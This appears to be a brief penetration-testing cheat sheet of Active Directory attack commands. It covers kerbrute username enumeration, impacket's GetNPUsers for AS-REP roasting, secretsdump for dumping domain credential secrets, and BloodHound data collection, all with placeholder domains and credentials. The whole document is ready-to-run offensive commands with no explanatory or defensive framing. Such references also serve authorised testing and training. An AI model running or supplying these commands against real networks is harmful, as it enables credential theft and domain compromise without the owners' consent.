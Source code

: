 # kerbrute
```sh
kerbrute userenum --dc domaincontroller -d domain.tld /path/to/userlist
```

# impacket
- ASRepRoast
```sh
/usr/local/bin/GetNPUsers.py domain.tld/ -dc-ip domaincontroller -usersfile validuserlist
```
- Dump Secret
```sh
/usr/local/bin/secretsdump.py -dc-ip 0.0.0.0 domain.tld/username:password@0.0.0.0
```

# bloodhound
```bash
pip3 install bloodhound
python3 -m bloodhound -d domain.tld -u username -p "password" -gc dc.domain.tld -c all -ns 0.0.0.0
```
